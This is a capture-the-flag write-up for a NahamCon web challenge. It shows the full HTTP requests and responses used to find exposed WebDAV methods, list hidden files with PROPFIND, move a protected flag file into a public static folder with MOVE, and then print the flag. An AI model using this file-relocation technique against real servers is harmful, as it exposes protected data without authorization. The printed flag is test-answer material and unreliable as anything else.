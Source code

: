
# Challenge Name: The Davinci Code


![date](https://img.shields.io/badge/date-24.05.2024-brightgreen.svg)  
![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg)   
![category](https://img.shields.io/badge/category-WEB-blueviolet.svg)   
![value](https://img.shields.io/badge/value-50-blue.svg)  

## Description

Author: @JohnHammond#6971  
  
Uhhh, someone made a Da Vinci Code fan page? But they spelt it wrong, and it looks like the website seems broken...  
  
## Detailed solution

![Pasted image 20240525235157](https://github.com/BaadMaro/CTF/assets/72421091/bdc15164-4cab-4981-b054-d33937ac2f19)

The button has the page /code which is a debug data exception with the Werkzeug traceback interpreter.
http://challenge.nahamcon.com:32230/code

Nothing interseted in the page

If we check OPTIONS we can identify some HTTP methods

```http
OPTIONS /code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:54:56 GMT
Content-Type: text/html; charset=utf-8
Allow: PROPFIND, HEAD, OPTIONS, MOVE, GET
Content-Length: 0
Connection: close
```

We got PROPFIND and MOVE. It's used with web DAV, which mentioned in the challenge as DAVinci.

We can get files location with PROPFIND and use MOVE to place the flag in an accessible directory.

```
PROPFIND / HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:57:48 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 1108
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/__pycache__</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>__pycache__</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/templates</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>templates</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/app.py</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>app.py</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/static</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>static</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>the_secret_dav_inci_code</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

Secret location /the_secret_dav_inci_code

```http
PROPFIND /the_secret_dav_inci_code HTTP/1.1
Host: challenge.nahamcon.com:32230
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive

```

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 22:58:52 GMT
Content-Type: application/xml; charset=utf-8
Content-Length: 453
Connection: close

<D:multistatus
	xmlns:D="DAV:">
	<D:response>
		<D:href>/the_secret_dav_inci_code</D:href>
		<D:propstat>
			<D:prop>
				<D:message>WebDAVinci Code</D:message>
				<D:directory>True</D:directory>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
	<D:response>
		<D:href>/the_secret_dav_inci_code/flag.txt</D:href>
		<D:propstat>
			<D:prop>
				<D:displayname>flag.txt</D:displayname>
			</D:prop>
			<D:status>HTTP/1.1 200 OK</D:status>
		</D:propstat>
	</D:response>
</D:multistatus>
```

The flag is located at /the_secret_dav_inci_code/flag.txt

We can move it to the static directory using MOVE method for the flag file and specify the directory using Destination header

```http
MOVE /the_secret_dav_inci_code/flag.txt HTTP/1.1
Host: challenge.nahamcon.com:32230
Destination: /static/flag.txt
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: .AspNetCore.Antiforgery.VyLW6ORzMgk=CfDJ8JFjXbWaKCBMqB4nM6SpO995LIsX6YpFlIWoUFGhuVYKW-uCS6Y3ssTeI-R0PQZp_iLlXFhuj1brxWsT17JKx2OZkBDlf5X50-fovmkk5xABQxINcv7uPEhf-jWW9bRSq-E7w48W_8i-w1IhPtllB1c
Connection: keep-alive


```

```http
HTTP/1.1 204 NO CONTENT
Server: Werkzeug/3.0.3 Python/3.9.19
Date: Sat, 25 May 2024 23:00:23 GMT
Content-Type: text/html; charset=utf-8
Connection: close
```

Let's check the flag http://challenge.nahamcon.com:32230/static/flag.txt

![Pasted image 20240526000206](https://github.com/BaadMaro/CTF/assets/72421091/00324271-5e0a-40d2-9610-f288590e43cf)

## Flag

```
flag{2bc76964262b3a1bbd5bc610c6918438}
```
